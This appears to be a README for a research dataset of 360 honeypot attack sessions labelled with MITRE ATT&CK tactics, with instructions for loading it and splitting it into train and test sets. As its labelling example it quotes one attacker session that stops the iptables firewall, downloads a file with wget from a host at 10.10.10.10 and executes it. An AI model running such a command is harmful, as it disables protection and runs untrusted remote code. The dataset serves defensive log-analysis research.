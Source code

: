 # HaaS supervised corpus

## Corpus

This folder contains 360 session from the [Honeypot as a Service](https://haas.nic.cz/) collection. The data were labeled under the supervision of a team of experts such that each statement (i.e., chunk of a Unix session separated by ";", "|", "||" or "&&") is assigned a [Mitre Tactic](https://attack.mitre.org/tactics/enterprise/).

For instance, the session:

```shell
etc/init.d/iptables stop ; wget –c http://10.10.10.10:8080/exec ; chmod 777 exec ; ./exec ;
```

Contains 4 statements and is labeled as following:
`Impact -- Execution -- Execution -- Execution`

You can easily read the sessions with pandas. For instance:

```python
df = pd.read_json("full_supervised_corpus.json", orient="index")
```

## Split corpus into train and test

The script `split_partitions.py` creates two json files. One contains a training corpus (e.g., `train_corpus.parquet`), while the other creates a test corpus (e.g., `test_corpus.parquet`). The developer launches the script with a parameter `--seed`, which will define the splitting, and a parameter `--test_size`, which is the portion of data in the test set wrt the training. For instance:

```shell
python split_partitions.py --seed 1 --test_size 0.2
```

Creates the two samples partitions `train_corpus.parquet` and `test_corpus.parquet`. Run:

```shell
python split_partitions.py --help
```

fort further details.

## Contributing

Sessions were chosen in order to be representative of the Mitre Classes. Still, we welcome contributions from the community to enhance LogPrécis further. If you have any ideas, bug reports, or feature requests, please contact our team at [matteo.boffa@polito.it](mailto:matteo.boffa@polito.it) and [idilio.drago@unito.it](mailto:idilio.drago@unito.it).
